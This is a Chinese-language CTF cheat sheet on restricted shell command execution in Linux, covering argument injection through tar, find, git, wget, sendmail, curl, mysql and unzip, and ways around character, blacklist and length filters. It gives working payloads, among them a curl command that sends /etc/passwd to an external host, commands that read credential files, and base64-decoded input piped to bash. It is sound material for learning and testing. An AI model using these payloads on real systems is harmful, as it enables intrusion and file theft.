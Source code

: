 # 带限制的shell命令执行

这是在linux下的带限制的shell命令执行总结

## 收藏文章

 [https://err0rzz.github.io/2017/11/13/ctf%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E4%B8%8E%E7%BB%95%E8%BF%87/](https://err0rzz.github.io/2017/11/13/ctf命令执行与绕过/) 

https://www.anquanke.com/post/id/107336

## 可控位置

### 参数部分可控

1. 尝试用`;,&,|,反引号`等来直接执行命令
2. 限制第一种情况,翻一翻参数表,找到可利用的参数



#### 参数注入

##### tar

关键参数:--use-compress-program=

可以造成命令执行

例子:

```shell
tar --use-compress-program='cat /etc/passwd' -cf 2.tar *
cat 2.tar
```



##### find

关键参数: -exec 

例子:` find . -type f -exec 命令 \; -quit`

` find . -type f -exec cat /etc/passwd \; -quit`

` find . -type f -exec echo hello \; -quit`



##### git

关键参数:--open-files-in-pager=

例子:`git grep -i --line-number -e '--open-files-in-pager=命令;' master`

##### wget

关键参数:--directory-prefix

下载example.php

```php
$url = 'http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```

下载并将其保存在特殊位置

```php
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```

##### sendmail

发送mail.txt。设置来信人为:from@sth.com

`sendmail -t -i -f from@sth.com < mail.txt`

打印/etc/passwd的内容

`sendmail -t -i -f from@sth.com -C/etc/passwd -X/tmp/output.txt < mail.txt`

##### curl

关键参数:-F

下载网页内容:

`curl http://example.com`

将/etc/passwd 发送到http://example.com:xxxx配合监听获取文件内容

`curl -F password=@/etc/passwd http://example.com`

![](http://ww1.sinaimg.cn/large/006pWR9agy1g68qtlpvsqj30nj0iiq4n.jpg)

##### mysql

执行sql语句

`mysql -uuser -ppassword -e  SELECT sth FROM table`

执行命令

`mysql -uuser -ppassword -e  \! 命令`

##### untar

Unpack all `*.tmp` files from `archive.zip` into `/tmp` directory.

```
$zip_name = 'archive.zip';
system(escapeshellcmd('unzip -j '.$zip_name.' *.txt -d /aa/1'));
```

Unpack all `*.tmp` files from `archive.zip` into `/var/www/html` directory.

```
$zip_name = '-d /var/www/html archive.zip';
system('unzip -j '.escapeshellarg($zip_name).' *.tmp -d /tmp');
```

### 命令部分可控



1. 尝试直接执行命令



## 限制条件

### 字符限制

#### 利用linux统配符来匹配文件绕过字符限制

##### 通配符

```shell
* 0到无穷个任意字符
? 一个任意字符
[ ] 一个在括号内的字符，e.g. [abcd]
[ - ] 在编码顺序内的所有字符
[^ ] 一个不在括号内的字符
[! ] 同 ^
```





执行cat命令可以用

`/b?n/c?t .....`

`/bin/c[0-z]t flag`

....自行发挥



#### 某些特殊字符的相互替换

##### 空格

{cat,flag.txt} 

\t和\r和\n代替空格

`$IFS$9` 符号 `${IFS}` 符号代替空格

利用重定向符来代替空格

```shell
cat<>flag
cat<flag
```

##### 杂

- ${PS2} 对应字符 ‘>’
- ${PS4} 对应字符 ‘+’
- ${IFS} 对应 内部字段分隔符
- ${9} 对应 空字符串

### 单词黑名单

#### 利用"",'',和\`\` ,\,$@来绕过单词黑名单

如`l''s,l""s`,l\`\`s,l\s,l$@s

#### 利用字符串操作如base64,rot等等来绕过单词黑名单

\`echo "base64编码"|base64 -d\`和`echo "base64编码"|base64 -d|bash`

#### 变量名拼接

`a=ec;b=ho;$a$b hello`



### 输入长度限制

#### 短命令执行

 [https://err0rzz.github.io/2017/11/13/ctf%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E4%B8%8E%E7%BB%95%E8%BF%87/](https://err0rzz.github.io/2017/11/13/ctf命令执行与绕过/) 

关键命令:

- ls 

-t :按照最后修改时间排序

- sh

#### 实例

```shell
>lo\\
>\ hel\\
>echo\\
ls -t>_
sh _
```


